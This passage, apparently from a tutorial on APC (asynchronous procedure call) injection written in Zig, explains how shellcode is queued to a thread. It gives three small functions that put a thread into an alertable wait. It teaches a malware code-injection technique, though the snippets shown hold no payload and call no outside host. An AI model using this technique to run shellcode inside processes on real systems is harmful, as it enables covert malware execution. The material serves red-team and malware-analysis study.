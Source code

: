 **Key Points:**

- `pfnAPC` points to our shellcode (cast as a function pointer)
- `hThread` is either a suspended thread or an alertable thread
- `dwData` can pass parameters to the APC function (we use 0)

## Put A Thread To Alertable State

There are two main approaches to make APC injection work: using alertable threads or suspended threads.

### Using The Functions

Alertable threads are threads that call specific Windows API functions with the alertable flag set to TRUE. These functions will process queued APCs while waiting:

#### Method 1: SleepEx

```zig
fn alertableFunction1(lpParameter: LPVOID) callconv(WINAPI) DWORD {
    _ = lpParameter;
    _ = SleepEx(INFINITE, 1); // TRUE = 1, sleeps indefinitely in alertable state
    return 0;
}
```

#### Method 2: WaitForSingleObjectEx

```zig
fn alertableFunction2(lpParameter: LPVOID) callconv(WINAPI) DWORD {
    _ = lpParameter;

    const hEvent = CreateEventW(null, 0, 0, null);
    if (hEvent != null) {
        _ = WaitForSingleObjectEx(hEvent.?, INFINITE, 1); // Alertable wait
        _ = CloseHandle(hEvent.?);
    }
    return 0;
}
```

#### Method 3: WaitForMultipleObjectsEx

```zig
fn alertableFunction3(lpParameter: LPVOID) callconv(WINAPI) DWORD {
    _ = lpParameter;

    const hEvent = CreateEventW(null, 0, 0, null);
    if (hEvent != null) {
        const handles = [_]HANDLE{hEvent.?};
        _ = WaitForMultipleObjectsEx(1, &handles, 1, INFINITE, 1); // Alertable wait
        _ = CloseHandle(hEvent.?);
    }
    return 0;
}
```
